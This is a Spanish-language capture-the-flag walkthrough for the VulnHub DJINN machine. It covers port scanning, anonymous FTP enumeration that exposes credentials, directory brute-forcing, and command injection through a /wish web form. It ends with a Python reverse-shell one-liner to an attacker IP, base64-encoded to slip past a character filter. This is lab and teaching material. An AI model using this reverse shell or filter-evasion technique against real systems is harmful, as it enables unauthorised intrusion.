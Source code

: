 # DJINN
Desarrollo del CTF DJINN

## 1. Configuración de la VM

- Descarga de la VM: https://www.vulnhub.com/entry/djinn-1,397/
- La VM funciona bien en VmWare

## 2. Escaneo de Puertos

```
# Nmap 7.91 scan initiated Sun Apr 18 11:27:05 2021 as: nmap -n -P0 -p- -sC -sV -O -T5 -oA full 10.10.10.160
Nmap scan report for 10.10.10.160
Host is up (0.00068s latency).
Not shown: 65531 closed ports
PORT     STATE    SERVICE VERSION
21/tcp   open     ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              11 Oct 20  2019 creds.txt
| -rw-r--r--    1 0        0             128 Oct 21  2019 game.txt
|_-rw-r--r--    1 0        0             113 Oct 21  2019 message.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.10.131
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   filtered ssh
1337/tcp open     waste?
| fingerprint-strings: 
|   NULL: 
|     ____ _____ _ 
|     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___ 
|     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
|     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
|     Let's see how good you are with simple maths
|     Answer my questions 1000 times and I'll give you your gift.
|     '-', 9)
|   RPCCheck: 
|     ____ _____ _ 
|     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___ 
|     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
|     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
|     Let's see how good you are with simple maths
|     Answer my questions 1000 times and I'll give you your gift.
|_    '+', 5)
7331/tcp open     http    Werkzeug httpd 0.16.0 (Python 2.7.15+)
|_http-server-header: Werkzeug/0.16.0 Python/2.7.15+
|_http-title: Lost in space
```

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj1.jpg" width=80% />

## 3. Enumeración

### 3.1. Enumeración FTP

- FTP permite acceso anónimo. Descargamos los archivos y vemos lo que tenemos.

```
root@kali:~/DJINN# ftp 10.10.10.160
Connected to 10.10.10.160.
220 (vsFTPd 3.0.3)
Name (10.10.10.160:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              11 Oct 20  2019 creds.txt
-rw-r--r--    1 0        0             128 Oct 21  2019 game.txt
-rw-r--r--    1 0        0             113 Oct 21  2019 message.txt
226 Directory send OK.
ftp> exit
221 Goodbye.
root@kali:~/DJINN# cat creds.txt
nitu:81299
root@kali:~/DJINN# cat game.txt
oh and I forgot to tell you I've setup a game for you on port 1337. See if you can reach to the 
final level and get the prize.
root@kali:~/DJINN# cat message.txt
@nitish81299 I am going on holidays for few days, please take care of all the work. 
And don't mess up anything.
```

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj2.jpg" width=80% />


- En resumen al parecer tenemos alguna credencial: "nitu:81299", nos hablan del puerto 1337 abierto y de un usuario "nitish81299". Tomamos nota.

### 3.2. Enumeración TCP/1337
 
- Encontramos un pequeño juego matemático. Intenté realizar alguna inyección sin exito.

```
root@kali:~/DJINN# nc 10.10.10.160 1337
  ____                        _____ _                
 / ___| __ _ _ __ ___   ___  |_   _(_)_ __ ___   ___ 
| |  _ / _` | '_ ` _ \ / _ \   | | | | '_ ` _ \ / _ \
| |_| | (_| | | | | | |  __/   | | | | | | | | |  __/
 \____|\__,_|_| |_| |_|\___|   |_| |_|_| |_| |_|\___|
                                                     

Let's see how good you are with simple maths
Answer my questions 1000 times and I'll give you your gift.
(3, '*', 2)
> 6
(4, '-', 8)
> 
```

### 3.3. Enumeración HTTP TCP 7331

```
root@kali:~/tools/dirsearch# python3 dirsearch.py -u http://10.10.10.160:7331/ -t 16 -r -e txt,html,php,asp,aspx,jsp -f -w /usr/share/seclists/Discovery/Web-Content/big.txt

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: txt, html, php, asp, aspx, jsp | HTTP method: GET | Threads: 16 | Wordlist size: 163783

Error Log: /root/tools/dirsearch/logs/errors-21-04-18_12-51-02.log

Target: http://10.10.10.160:7331/

Output File: /root/tools/dirsearch/reports/10.10.10.160/_21-04-18_12-51-02.txt

[12:51:02] Starting: 
[12:53:41] 200 -    2KB - /genie
[12:57:30] 200 -  385B  - /wish
```

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj3.jpg" width=80% />


- Encontramos un script que nos permite ejecutar comandos. Vamos bien.


## 4. Obteniendo SHELL

- Ya que tenemos un script vamos a intentar obtener una shell reversa, sin embargo, obtenemos mensajes de error. Antes de eso lo pasamos por el BURP.

```
POST /wish HTTP/1.1
Host: 10.10.10.160:7331
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.160:7331/wish
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Connection: close
Upgrade-Insecure-Requests: 1

cmd=id
```

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj4.jpg" width=80% />

- Todo parece fácil, sin embargo, algunos caracteres no estaban permitidos y eso limitada las operaciones: el punto (.), asterisco (*) y slash (/).
- Después de darle muchas vueltas (1 hora), teníamos que aplicar algun encode para obtener shell. BASE64.


```
//Texto sin ENCODE

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.131",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


//Texto con ENCODE
echo cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTAuMTMxIiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOyc= | base64 -d | bash
```

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj5.jpg" width=80% />




